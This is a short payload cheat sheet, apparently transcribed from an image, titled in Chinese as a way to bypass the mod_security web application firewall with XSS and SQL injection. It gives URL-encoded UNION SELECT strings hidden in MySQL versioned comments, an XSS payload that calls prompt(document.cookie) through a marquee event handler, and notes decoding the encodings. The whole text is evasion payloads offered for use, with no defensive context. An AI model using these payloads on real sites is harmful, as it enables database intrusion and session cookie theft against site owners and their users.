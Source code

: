	Xss和注入bypass mod_security
	/*!50000%75%6e%69on*/ %73%65%6cect 1,2,3,4... –
	<marquee loop=1 width=0 onfinish=pr\u006fmpt(document.cookie)>Y000</marquee>
	/*!50000%75%6e%69on*/ %73%65%6cect 1,2,3,4,5—
	%75%6e%69on = union 
	%73%65%6cect = select 
	%75%6e%69 = uni = url encode 
	%73%65%6c = sel = url encode
